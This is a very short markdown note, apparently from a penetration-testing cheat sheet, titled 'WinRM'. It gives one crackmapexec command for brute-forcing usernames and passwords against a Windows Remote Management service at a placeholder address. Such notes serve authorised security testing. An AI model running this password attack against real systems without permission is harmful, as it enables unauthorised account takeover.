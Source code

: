 # WinRM
## Brute force users and passwords
```sh
crackmapexec winrm <ip> -u <username_or_file> -p <password_or_file>
```
